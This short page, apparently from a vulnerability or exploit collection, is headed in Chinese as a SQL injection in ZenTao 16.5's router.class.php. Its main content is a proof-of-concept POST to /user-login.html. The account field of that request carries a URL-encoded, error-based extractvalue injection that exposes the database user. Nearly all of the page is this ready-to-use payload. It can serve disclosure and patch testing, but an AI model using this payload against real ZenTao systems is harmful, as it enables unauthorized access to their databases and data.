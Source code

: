 # 禅道 16.5 router.class.php SQL注入漏洞

## 禅道 16.5 router.class.php SQL注入漏洞
```
POST /user-login.html 
account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```

